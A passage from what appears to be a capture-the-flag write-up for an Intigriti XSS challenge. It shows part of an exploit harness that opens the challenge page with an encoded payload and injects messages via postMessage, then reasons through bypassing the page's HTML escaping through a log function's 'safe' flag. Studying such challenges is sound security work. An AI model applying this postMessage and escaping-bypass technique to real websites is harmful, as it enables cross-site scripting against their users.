 ``` html
      <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
    `

    var win = window.open(htmlUrl + encodeURIComponent(payload))

    // wait unitl window loaded
    setTimeout(() => {
      console.log('go')
      const credentials = {
        username: 'a',
        password: 'a'
      }
      win.frames[1].postMessage({
        cmd: 'test',
        credentials
      }, '*')
    }, 5000)

  </script>
</body>
</html>
```

In this way, I can use postMessage to send messages in.

Although it took some effort, this is just the beginning.

## Level 2: Make safe true

To make safe true, so that `<` will not be escaped when calling log, we need to find a call that passes in four parameters, because the fourth one will be the value of safe:

``` js
case "logv": { // display variable's value by its name
    log("[logv]: ", window[m.message], safe=false, type='info'); 
    break;
}
case "compare": { // compare variable's value to a given one
    log("[compare]: ", (window[m.message.variable] === m.message.value), safe=true, type='info'); 
    break;
}
```

`log("[logv]: ", window[m.message], safe=false, type='info')` is the function call I'm looking for, and the second parameter in it will be `window[m.message]`, which means that any global variable can be passed in as data. But what should be passed in?

## Level 3: Find the variables that can be passed in

I've been stuck here for a long time because I can't think of what can be passed in here. There used to be a trick to pass in name, but this webpage has already set its own name so it cannot be used. Another trick is to use URL to pass in and put things on location, but `log` will check whether `data` is a string. If it is not, it needs to be passed through `JSON.stringify`, which will encode the content.
